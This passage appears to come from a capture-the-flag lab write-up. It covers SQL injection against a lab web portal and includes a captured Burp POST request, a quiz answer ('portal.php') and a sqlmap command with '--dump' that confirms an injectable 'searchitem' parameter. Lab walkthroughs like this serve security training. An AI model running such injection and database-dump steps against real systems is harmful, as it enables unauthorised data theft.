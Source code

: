 Successfully logging into the service directs us to the following page:
![](portal-login-dash.png)

> When you've logged in, what page do you get redirected to?
>
> Answer: `portal.php`

Since the target is vulnerable to SQLi, we can now use SQLMap for further recon...


Using Burpsuite and determining the request sent by the browser when accessing the `portal.php` page:
```http
POST /portal.php HTTP/1.1
Host: 10.10.107.37
Content-Length: 14
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.107.37
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.107.37/portal.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=kfd3hokcd5krmlmrofgs4q45q7
Connection: close

searchitem=asd
```

We can save this to a file and then pass this to SQLMap to authenticate user session:
```shell-session
$ sqlmap -r portal-request.txt --dbms=mysql --dump

...
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y

...

POST parameter 'searchitem' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N

...

do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y

...

```